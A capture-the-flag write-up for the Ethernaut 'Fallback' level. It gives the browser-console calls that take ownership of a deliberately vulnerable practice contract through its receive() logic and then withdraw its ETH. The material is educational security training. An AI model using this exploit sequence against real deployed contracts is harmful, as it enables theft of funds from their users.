 # Fallback

## Objective

Exploit the fallback function vulnerability in the provided smart contract to become the contract owner and withdraw its ETH balance.

---

## Getting Started

1. Go to [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)
2. Select the **"Fallback"** level
3. Click **“Get new instance”** and approve the transaction in MetaMask
4. The instance is now deployed and available as the `contract` object in the browser console
5. Save the instance address:

    ```js
    contract.address
    ```

---

## Walkthrough

### Step 1: Check the Current Owner

```js
await contract.owner()
```

**Explanation:**
This checks the current owner of the contract. Initially, it will not be your address.

---

### Step 2: Make a Small Contribution

```js
await contract.contribute({ value: "1" }) // 1 wei is enough
```

**Explanation:**
This registers your address with a nonzero contribution, which is required to exploit the fallback logic.

---

### Step 3: Trigger the Fallback Function

```js
await contract.sendTransaction({ value: "1" })
```

**Explanation:**
This sends ETH directly to the contract, invoking the `receive()` function. Since you have a contribution, this sets you as the new owner.

---

### Step 4: Confirm Ownership

```js
await contract.owner()
```

**Explanation:**
Verifies that you are now the contract owner after exploiting the fallback logic.

---

### Step 5: Withdraw All ETH

```js
await contract.withdraw()
```

**Explanation:**
As the new owner, you can now withdraw the contract's entire ETH balance.

---

### Step 6: Submit the Level

Click **“Submit instance”** in the UI and confirm the MetaMask transaction. The level is complete once the transaction is successful.

---

## What You Learn

This level teaches the following:

* How fallback and receive functions can be abused if not properly secured
* The importance of validating contribution logic and access control
* How ownership can be unintentionally transferred through fallback logic
* Defensive patterns to prevent unauthorized ownership changes

---

## Resources Used

* [Ethernaut Game](https://ethernaut.openzeppelin.com/)
* [Solidity Docs](https://docs.soliditylang.org/)
* [YouTube Walkthrough](https://www.youtube.com/watch?v=TQKj2xvsGec)
* [Blog Writeup](https://shubhamm.me/blog/08-ethernaut-challenges-fallback)

---
